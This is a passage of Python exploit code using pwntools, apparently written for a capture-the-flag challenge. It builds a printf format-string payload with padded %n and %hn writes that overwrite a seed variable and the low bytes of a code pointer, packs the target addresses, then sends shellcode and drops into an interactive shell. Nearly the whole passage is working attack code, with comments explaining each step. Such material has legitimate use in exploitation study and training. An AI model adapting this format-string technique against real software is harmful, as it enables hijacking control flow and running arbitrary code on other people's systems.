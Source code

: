 ```python

log.info("Break at %s to stop before running shellcode" % hex(base_addr + 0x161f))

# diff = buffer_start - current_code_ptr_val
# (could be done with the offsets only, but since i can run code i might as
#  well just use what i already have)
# > diff = 0b100000011111101
# print(len("{0:b}".format(diff)))
# > 15
#
# only 15 bits are different, so we only need to overwrite two bytes with printf
# and since they're the least significant bytes, they're the first two in x86
# (which is a little endian architecture)
#
# so we set the format string to print `diff` characters then use %n to overwrite
# `code_ptr_addr`

log.info("Overwriting time and code pointer")
send_command("1") # change username

# 3764 chars are written for the seed, so we need to write N - 3764
# chars to get the count to the value needed for the shellcode address
# but if the value is too small, it'd fail
if value_to_write < 3764:
    log.error("Value to write too small, please try again")
    import sys
    sys.exit(1)
value_to_write -= 3764

# 19 * 8 bytes before the buffer on the stack
# + 5 arguments in registers
payload = ""
payload += "%03764d"                        # write 3764 characters, so we can overwrite the seed
payload += "%29$n"                          # overwrite time (aka seed) var. %n is an int, which is
                                            # 4 bytes (same size as the seed) in x86-64. This will
                                            # set it to exactly 3764, overwriting all previous bits.
payload += "%0" + str(value_to_write) + "d" # overwrite least significant address bits
                                            # the actual needed value needs to have 3764 subtracted
                                            # from it because we already wrote that many characters
                                            # for the seed.
payload += "%28$hn"                         # overwrite code pointer. %hn is a short, which is the
                                            # two first bytes in a little endian architecture, so
                                            # the pointer value is already right.
                                            # if it wasn't, we could just do pointer math to set the
                                            # address to the least significant bytes
payload += "P"*(8 - (len(payload) % 8))     # align the payload to 8 bytes, so the next two
                                            # addresses can be accessed
payload += p64(code_ptr_addr)               # this is the 28th value
payload += p64(current_time_addr)           # this is the 29th value
send_command(payload)
read_until("Hello, ")

raw_input("press enter to run shellcode...")
log.info("Sending and running shellcode")
send_shellcode(shellcode)

log.info("Enjoy :)")
p.interactive()
```
